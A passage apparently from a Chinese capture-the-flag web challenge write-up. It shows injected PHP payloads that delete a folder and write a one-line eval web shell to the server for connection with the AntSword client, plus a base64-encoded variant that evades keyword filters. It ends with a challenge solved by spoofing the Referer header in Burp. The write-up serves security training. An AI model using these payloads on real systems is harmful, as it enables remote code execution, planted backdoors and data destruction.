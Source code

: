 ```
/?s=rmdir('test') 删除test文件夹 
```

#### 5.写文件

fwrite()函数写入个小马，然后用蚁剑连上去试试。

```
?s=fwrite(fopen('./zzz.php','w+'),'<?php%20@eval($_POST[pass]);?>')) 
```

顺便再给出一种绕过关键词的方式

```
?s=fwrite(fopen('./zaq.php','w+'),base64_decode("PD9waHAgQGV2YWwoJF9QT1NUW3Bhc3NdKTs/Pg==")) 
```

![在这里插入图片描述](img/bc9c5e81a58a4abddb059f0d4a940be6.png)

## 30.你从哪里来

burp抓包将请求头的referer改为http://www.google.com
![在这里插入图片描述](img/0360e2902b0b6ebfbf54c3159fd5b9d5.png)
